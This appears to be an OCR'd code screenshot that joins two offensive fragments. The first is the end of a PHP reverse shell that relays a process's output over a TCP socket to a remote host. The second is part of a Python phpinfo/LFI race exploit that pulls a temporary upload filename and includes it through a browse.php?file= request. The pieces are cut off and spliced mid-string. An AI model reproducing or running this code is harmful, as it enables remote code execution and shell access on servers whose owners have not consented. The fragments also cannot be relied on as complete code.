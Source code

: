```
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =>")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
```